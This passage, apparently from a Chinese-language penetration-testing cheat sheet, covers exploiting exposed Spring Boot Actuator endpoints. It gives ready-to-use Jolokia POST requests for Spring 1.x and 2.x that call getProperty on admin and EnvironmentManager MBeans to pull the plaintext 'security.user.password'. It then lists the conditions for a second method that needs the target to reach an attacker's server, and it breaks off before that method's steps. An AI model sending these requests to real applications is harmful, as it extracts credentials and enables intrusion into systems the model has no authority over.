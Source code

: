 > 实际上是调用 org.springframework.boot.admin.SpringApplicationAdminMXBeanRegistrar 类实例的 getProperty 方法

spring 1.x

```
POST /jolokia
Content-Type: application/json

{"mbean": "org.springframework.boot:name=SpringApplication,type=Admin","operation": "getProperty", "type": "EXEC", "arguments": ["security.user.password"]}
```

spring 2.x

```
POST /actuator/jolokia
Content-Type: application/json

{"mbean": "org.springframework.boot:name=SpringApplication,type=Admin","operation": "getProperty", "type": "EXEC", "arguments": ["security.user.password"]}
```



- 调用 `org.springframework.cloud.context.environment` Mbean


> 实际上是调用 org.springframework.cloud.context.environment.EnvironmentManager 类实例的 getProperty 方法

spring 1.x

```
POST /jolokia
Content-Type: application/json

{"mbean": "org.springframework.cloud.context.environment:name=environmentManager,type=EnvironmentManager","operation": "getProperty", "type": "EXEC", "arguments": ["security.user.password"]}
```

spring 2.x

```
POST /actuator/jolokia
Content-Type: application/json

{"mbean": "org.springframework.cloud.context.environment:name=environmentManager,type=EnvironmentManager","operation": "getProperty", "type": "EXEC", "arguments": ["security.user.password"]}
```



- 调用其他 Mbean

> 目标具体情况和存在的 Mbean 可能不一样，可以搜索 getProperty 等关键词，寻找可以调用的方法。



##### 方法二

###### 利用条件

- 可以 GET 请求目标网站的 `/env` 
- 可以 POST 请求目标网站的 `/env` 
- 可以 POST 请求目标网站的 `/refresh` 接口刷新配置（存在 `spring-boot-starter-actuator` 依赖）
- 目标使用了 `spring-cloud-starter-netflix-eureka-client` 依赖
- 目标可以请求攻击者的服务器（请求可出外网）
